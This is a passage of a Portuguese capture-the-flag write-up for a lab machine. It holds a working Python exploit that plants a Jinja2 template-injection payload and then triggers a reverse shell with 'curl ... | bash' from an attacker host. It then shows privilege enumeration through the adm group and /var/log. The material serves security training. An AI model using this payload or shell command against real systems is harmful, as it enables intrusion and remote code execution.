 ```python

# Create user
payload = {'username':username,'email':email,'password':password,'confirm_password':password,'submit':'Sign Up'}
r = s.post(url+'/register',data=payload)

# Login
payload = {'email':email,'password':password,'submit':'Login'}
r = s.post(url+'/login?next=%2Fhome',data=payload)

# Create message
{% raw %}
title = "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}"
{% endraw %}
payload = {'title':title,'content':'content','submit':'Post'}
r = s.post(url+'/post/new',data=payload)

# Get Reverse shell
command = requests.utils.quote('curl -L http://'+ip+'/payload | bash')
r = s.get(url+'/archive?input='+command)
```

## User flag

Depois de obter o shell reverso, [fiz o upgrade dele para ter acesso a funcionalidades de auto-complete, etc](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html), e iniciei o processo de enumeração:

- Os usuários existentes na máquina, com base nas home folders existentes são **shaun** e **web**;

- Verificando os grupos dos quais o usuário **web** é membro, notei que a conta é membro do grupo **adm**:

```bash
web@doctor:/home$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

  - O grupo **adm** no Linux permite acesso a arquivos localizados no diretório `/var/log`, que possivelmente pode permitir que consigamos alguma informação sensivel dentro das logs de componentes do sistema como webservers e tarefas agendadas (cron).

### Analizando as logs em /var/log

Então para iniciar esta análise vamos buscar quais componentes, alem dos defaults de sistema, temos dentro desta máquina:

```bash
web@doctor:/var/log$ ls -ld */
drwxr-x---  2 root              adm             4096 Jan 31 00:00 apache2/
drwxr-xr-x  2 root              root            4096 Sep  7 12:13 apt/
drwxr-xr-x  2 root              root            4096 Jan 31 00:00 cups/
drwxr-xr-x  2 root              root            4096 Apr  8  2020 dist-upgrade/
drwxr-xr-x  3 root              root            4096 Apr 23  2020 hp/
drwxrwxr-x  2 root              root            4096 Jul 26  2020 installer/
drwxr-sr-x+ 3 root              systemd-journal 4096 Jul 20  2020 journal/
drwxr-xr-x  2 root              root            4096 Sep  5  2019 openvpn/
drwx------  2 root              root            4096 Apr 23  2020 private/
drwx------  2 speech-dispatcher root            4096 Jan 19  2020 speech-dispatcher/
drwxr-x---  2 root              adm             4096 Jan 30 19:13 unattended-upgrades/
```
